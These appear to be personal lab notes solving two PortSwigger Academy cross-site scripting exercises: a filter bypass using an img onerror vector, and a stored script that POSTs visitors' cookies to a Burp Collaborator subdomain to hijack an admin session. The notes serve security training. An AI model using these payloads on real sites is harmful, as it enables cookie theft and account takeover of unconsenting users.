 ## Stored DOM XSS
Reference: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored

```ad-done
title: Solution
Post a comment containing the following vector:
~~~html
<><img src=1 onerror=alert(1)>
~~~

In an attempt to prevent XSS, the website uses the JavaScript replace() function to encode angle brackets. However, when the first argument is a string, the function only replaces the first occurrence. We exploit this vulnerability by simply including an extra set of angle brackets at the beginning of the comment. These angle brackets will be encoded, but any subsequent angle brackets will be unaffected, enabling us to effectively bypass the filter and inject HTML.
```

## Exploiting cross-site scripting to steal cookies
Reference: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

```ad-hint
title: Quick Solution
There is a stored XSS in the comments, just add a ``fetch`` to the Burp Collaborator to get the ``cookie`` of the victim. Payload in the next section.
```

```ad-done
title: Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
~~~javascript
<script>
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
~~~
This script will make anyone who views the comment issue a POST request to burpcollaborator.net containing their cookie.
4. Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to /my-account to load the admin user's account page.
```
